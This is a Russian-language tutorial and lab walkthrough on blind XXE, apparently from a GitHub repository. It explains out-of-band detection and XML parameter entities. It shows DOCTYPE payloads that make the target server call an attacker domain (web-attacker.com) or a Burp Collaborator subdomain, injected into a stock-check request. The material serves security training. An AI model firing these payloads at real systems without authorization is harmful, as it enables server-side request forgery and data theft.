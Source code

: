 
# Эксплуатация XXE для извлечения файлов, выполнения SSRF и работы со слепым XXE 🚨

XXE (XML External Entity) — это уязвимость, позволяющая злоумышленникам извлекать файлы с сервера, выполнять атаки SSRF и использовать "слепые" уязвимости XXE. Это руководство охватывает все эти сценарии с подробными примерами. 💡

---

## Часть 1: Что такое слепой XXE?

Слепой XXE возникает, когда приложение уязвимо для XXE, но не возвращает значения внешних сущностей в ответах. Это делает прямое извлечение данных невозможным, и такие уязвимости сложнее эксплуатировать, чем обычные XXE.

### Основные способы обнаружения и эксплуатации слепого XXE:

1. Инициирование внеполосных сетевых взаимодействий (OAST), которые могут позволить извлечь конфиденциальные данные.
2. Провоцирование ошибок анализа XML, содержащих конфиденциальные данные в сообщениях об ошибках.

### Обнаружение слепого XXE с использованием внеполосных методов

Слепой XXE часто можно обнаружить, инициируя внеполосное сетевое взаимодействие с системой, которую вы контролируете. Например:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Используйте определённую сущность в значениях данных XML. Этот подход заставляет сервер выполнять HTTP-запрос на указанный URL, а злоумышленник может отследить результат — DNS-запросы и HTTP-запросы.

---

## Часть 2: Использование параметрических сущностей для обхода ограничений

Иногда атаки XXE с использованием обычных сущностей блокируются из-за проверки ввода приложением или усиленных настроек парсера XML. В таких случаях вы можете использовать параметрические сущности XML как альтернативу.

### Что такое параметрические сущности?

Параметрические сущности — это особый вид сущностей XML, на которые можно ссылаться только внутри DTD. Важно знать две вещи:

1. Для объявления параметрической сущности используется символ процента (`%`) перед именем сущности:
```xml
<!ENTITY % myparameterentity "значение моей параметрической сущности" >
```

2. Для ссылки на параметрическую сущность используется символ процента вместо обычного амперсанда:
```xml
%myparameterentity;
```

### Пример нагрузки с использованием параметрической сущности

Вы можете проверить наличие слепого XXE, используя внеполосное обнаружение с параметрическими сущностями:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Эта нагрузка определяет параметрическую сущность `xxe` и ссылается на неё внутри DTD. Это вызовет DNS и HTTP-запросы к домену злоумышленника, подтверждая успешность атаки.

---

## Пример лабораторной работы

В этой лабораторной работе функция «Проверка запасов» анализирует входные данные XML, но не отображает неожиданные значения и блокирует запросы, содержащие обычные внешние сущности.

### Шаги выполнения атаки

### 1. Выбор продукта
Откройте список продуктов и выберите любой из них:

![Список продуктов](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Нажатие кнопки
На странице продукта нажмите кнопку **"Проверить наличие на складе"**, предварительно включив прокси (например, Burp Suite):

![Кнопка проверки наличия](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Перехват запроса
Зайдите в **Proxy → HTTP History**, выберите POST-запрос к `/product/stock` и отправьте его в **Repeater**:

![POST-запрос](https://github.com/user-attachments/assets/714f1495-42e5-48d2-b690-8bf41c3f3a57)

---

### 4. Внедрение нагрузки 🚀

Добавьте следующее определение параметрической сущности между декларацией XML и элементом `stockCheck`. Используйте **Burp Collaborator** для вставки поддомена, где указано `BURP-COLLABORATOR-SUBDOMAIN`:
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

Замените значение `productId` ссылкой на параметрическую сущность.

![Внедрение параметрической сущности](https://github.com/user-attachments/assets/0dfd4ce3-255e-42ef-b1ed-ac6b2edce480)

---

### 5. Проверка Collaborator
Перейдите на вкладку **Collaborator** и нажмите **"Poll now"**. Если взаимодействия не отображаются, подождите несколько секунд и повторите. Вы должны увидеть DNS- и HTTP-взаимодействия, инициированные приложением в результате вашей нагрузки.
